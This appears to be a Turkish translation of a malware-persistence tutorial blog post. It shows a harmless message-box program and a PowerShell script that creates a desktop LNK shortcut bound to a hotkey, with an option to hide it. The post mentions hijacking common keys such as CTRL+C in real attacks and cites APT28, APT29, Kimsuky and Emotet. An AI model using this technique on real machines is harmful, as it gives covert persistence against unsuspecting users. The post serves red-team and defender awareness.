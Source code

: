 \newpage
\subsection{89. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 23. LNK dosyaları. Basit PowerShell örneği.}

﷽

![pers](./images/112/2023-12-11_01-01_1.png){width="80%"}    

Bu gönderi, kötü amaçlı yazılımlarda kalıcılık sağlamak için kullanılabilecek en ilginç yöntemlerden biri olan **Windows LNK dosyaları** yöntemine dayanmaktadır.    

### LNK

[Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)'a göre, bir `LNK` dosyası, Windows'ta bir **kısayol** veya "bağlantı" görevi görerek bir dosyaya, klasöre veya uygulamaya referans sağlar. Normal kullanıcılar için bu dosyalar, dosya düzeni ve çalışma alanının düzenlenmesine yardımcı olur. Ancak, bir sıldırganın bakış açısından `LNK` dosyalarının önemi farklıdır. APT grupları tarafından belgelenmiş çeşitli sıldırılarda kullanılmıştır ve bildiğim kadaryla, kimlik avı, kalıcılık sağlama ve yüklenicileri çalıştırma gibi etkinlikler için halen geçerli bir seçenek olarak kalmaktadır.    

Windows kısayollarının çalıştırma açısından bir **kısayol tuşu** kullanarak kaydedilebileceğini biliyor muydunuz? Bu, bu durumda kötü amaçlı yazılımlar için kalıcılık sağlamak amacıyla kullanılan temel bir numaralardan biridir.    

### pratik örnek

Diyelim ki bir "kötü amaçlı yazılım" oluşturduk. Her zamanki gibi, `meow-meow` mesaj kutusu uygulaması `hack.c`:    

```cpp
/*
hack.c
Windows kalıcılık için kötü uygulama
yazar: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Ardından, aşağıdaki özelliklere sahip bir `LNK` dosyası oluşturmak için PowerShell betiği oluşturalım:     

```powershell
# Masaüstünde oluşturulacak kısayolun yolunu tanımla
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# WScript Shell nesnesi oluştur
$wshell = New-Object -ComObject Wscript.Shell

# Kısayol nesnesi oluştur
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Kısayolun simge konumunu ayarla
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Kısayolun hedef yolunu ve argümanlarını ayarla
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Kısayolun çalışma dizinini ayarla
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Kısayol için bir kısayol tuşu belirle (CTRL+W örneğin)
$shortcut.HotKey = "CTRL+W"

# Kısayol için açıklama ekle
$shortcut.Description = "Kötü amaçlı değil, meow-meow malware"

# Kısayolun pencere stilini ayarla (7 = Minimize edilmiş pencere)
$shortcut.WindowStyle = 7

# Kısayolu kaydet
$shortcut.Save()

# Opsiyonel olarak bağlantıyı gizli yapmak için 'Hidden' özelliğini ekleyin
# (Get-Item $shortcutPath).Attributes += 'Hidden'
```

Görebildiğiniz gibi, mantık oldukça basit. Masaüstünde belirli bir kısayol tuşu (CTRL+W) ile çalışan bir bağlantı oluşturuyoruz. Gerçek sıldırı senaryolarında bu, `CTRL+C`, `CTRL+V` veya `CTRL+P` gibi yaygın kombinasyonlar olabilir.    

Örneğin, eğer `Paint` için bir kısayol oluşturursanız, varsayılan olarak herhangi bir kısayol tuşu atanmaz:    

![pers](./images/112/2023-12-09_23-54.png){width="80%"}    

> Explorer, kısayol desteğini yalnızca **CTRL+ALT** ile başlayan komutlarla sınırlandırır. Ekstra kombinasyonlar yalnızca **COM** aracılığıyla programlanarak ayarlanabilir.    

### demo

Haydi her şeyi adım adım inceleyelim. "Kötü amaçlı yazılımımızı" derleyelim:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/112/2023-12-11_01-28.png){width="80%"}    

Doğruluğunu kontrol etmek için çalıştıralım:    

```powershell
.\hack.exe
```

![pers](./images/112/2023-12-11_00-51.png){width="80%"}    

Ardından kalıcılık için PowerShell betiğimizi çalıştıralım:    

```powershell
Get-Content pers.ps1 | PowerShell.exe -noprofile -
```

![pers](./images/112/2023-12-11_00-57.png){width="80%"}    

Sonuç olarak, Meow LNK dosyası başarıyla oluşturuldu.    

Eğer özelliklerine bakarsak, her şey yolunda görünüyor:     

![pers](./images/112/2023-12-11_01-01.png){width="80%"}    

Son olarak, sadece çalıştırın ve `CTRL+W` kısayolunu tetiklemeyi deneyin:     

![pers](./images/112/2023-12-11_01-02.png){width="80%"}    

![pers](./images/112/2023-12-11_01-05.png){width="80%"}    

Görebildiğiniz gibi, her şey beklendiği gibi mükemmel çalıştı! =^..^= :)    

Bu teknik, **APT28** ([APT28](https://attack.mitre.org/groups/G0007/)), **APT29** ([APT29](https://attack.mitre.org/groups/G0016/)), **Kimsuky** ([Kimsuky](https://attack.mitre.org/groups/G0094/)) gibi APT grupları ve **Emotet** ([Emotet](https://attack.mitre.org/software/S0367/)) gibi zararlı yazılımlar tarafından aktif olarak kullanılmaktadır. Bu yöntem, kurbanları kandırmak için son derece kullanışlı olduğundan yaygın olarak tercih edilmektedir.     

Umarım bu gönderi, mavi takım üyelerinin bu teknik hakkında farkındalığını artırır ve kırmızı takım üyelerinin cephaneliğine bir silah ekler.      

Sevgili arkadaşım ve meslektaşım [Anton Kuznetsov](https://twitter.com/yrevichus)'a teşekkür ederim, bu tekniği bana hatırlattı ve harika bir sunum yaptı.     

[ATT&CK MITRE: T1204.001](https://attack.mitre.org/techniques/T1204/001/)     
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[Emotet](https://attack.mitre.org/software/S0367/)    
[MSDN: Shell Link (.LNK) Binary File Format](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2023-12-10-malware-pers-23)     
